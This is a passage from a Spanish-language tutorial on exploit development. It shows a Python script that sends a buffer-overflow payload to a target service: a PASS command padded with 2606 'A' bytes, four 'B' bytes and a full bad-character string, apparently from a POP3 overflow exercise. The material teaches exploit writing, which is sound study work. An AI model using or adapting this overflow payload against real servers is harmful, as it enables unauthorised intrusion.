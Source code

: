 Y el código para enviar los badchars nos quedaría así:

{% code lineNumbers="true" %}
```python
#!/usr/bin/python3

import sys
import socket
from pwn import *

target_ip = sys.argv[1]
target_port = sys.argv[2]

if len(sys.argv) != 3:
    print("[!] Usage: python3 %s <target-ip> <target-port>" % (sys.argv[0]))
    exit(0)

if __name__ == '__main__':
    badchars = (
        b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
        b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
        b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
        b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
        b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
        b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
        b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
        b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
    )

    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target_ip, int(target_port)))

        s.send(b"USER test\r\n")
        payload = b"PASS " +  b"\x41" * 2606 + b'\x42' * 4 + badchars + b"\r\n"
        s.send(payload)
        data = s.recv(1024)
        s.close()
        
    except:
        print("[!] Error de conexion")
        sys.exit(1)
```
{% endcode %}
